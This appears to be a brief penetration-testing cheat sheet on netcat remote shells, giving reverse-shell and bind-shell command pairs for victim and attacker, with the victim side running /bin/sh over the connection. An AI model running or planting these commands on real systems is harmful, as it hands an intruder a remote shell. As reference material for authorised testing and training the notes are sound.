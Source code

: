 remote shell

**netcat reverse shell**

used mostly in internal 
```
# Reverse shell they open a connection with us
# victim
nc <ip> <port> -e /bin/sh

# attacker
nc -lvp <same port>
```

**netcat bind shell**

Mostly used in extenal assessment, used with firewalls
```
# Bind shell, they open a connection for us
# victim
nc -lvp <port> -e /bin/sh

#attacker
nc <ip> <same port>

```